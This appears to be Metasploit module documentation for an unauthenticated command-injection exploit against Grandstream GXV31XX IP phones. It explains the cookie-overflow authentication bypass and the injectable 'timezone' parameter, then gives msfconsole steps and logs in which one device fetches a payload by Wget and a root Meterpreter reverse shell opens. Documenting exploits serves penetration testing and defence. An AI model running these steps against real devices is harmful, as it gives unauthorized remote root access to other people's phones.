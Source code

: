 ## Vulnerable Application

This module exploits a command injection vulnerability in Grandstream GXV31XX
IP multimedia phones. The 'settimezone' action does not validate input in the
'timezone' parameter allowing injection of arbitrary commands.

A buffer overflow in the 'phonecookie' cookie parsing allows authentication
to be bypassed by providing an alphanumeric cookie 93 characters in length.

This module was tested successfully on Grandstream models:

* GXV3175v2 hardware revision V2.6A with firmware version 1.0.1.19; and
* GXV3140 hardware revision V0.4B with firmware version 1.0.1.27.

## Verification Steps

1. `msfconsole`
1. `use exploit/linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec`
1. `set rhosts [IP]`
1. `set target [target]`
1. `run`
1. You should get a session

## Options


## Scenarios

### Grandstream GXV3140

```
msf6 > use exploit/linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec) > set rhosts 10.1.1.111
rhosts => 10.1.1.111
msf6 exploit(linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec) > run

[*] Started bind TCP handler against 10.1.1.111:4444
[*] Command shell session 1 opened (10.1.1.112:36769 -> 10.1.1.111:4444 ) at 2022-01-29 02:30:13 -0500


Shell Banner:
_!_
-----


/ # uname -a
uname -a
Linux gxv3140_000b8229ac36 2.6.10_gxv31xx #15 Tue Jul 16 11:07:04 CDT 2013 armv5tejl unknown
/ #

```

### Grandstream GXV3175v2

```
msf6 > use exploit/linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec) > set rhosts 10.1.1.109
rhosts => 10.1.1.109
msf6 exploit(linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec) > set lhost 10.1.1.110
lhost => 10.1.1.110
msf6 exploit(linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec) > set target 1
target => 1
msf6 exploit(linux/http/grandstream_gxv31xx_settimezone_unauth_cmd_exec) > run

[*] Started reverse TCP handler on 10.1.1.110:4444 
[*] Using URL: http://0.0.0.0:8080/JF62dexHKN8b
[*] Local IP: http://10.1.1.110:8080/JF62dexHKN8b
[*] Client 10.1.1.109 (Wget/1.10.1) requested /JF62dexHKN8b
[*] Sending payload to 10.1.1.109 (Wget/1.10.1)
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Meterpreter session 1 opened (10.1.1.110:4444 -> 10.1.1.109:39371 ) at 2022-01-08 13:27:44 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo 
Computer     : 10.1.1.109
OS           :  (Linux 2.6.32_gxv3170v2)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter >
```
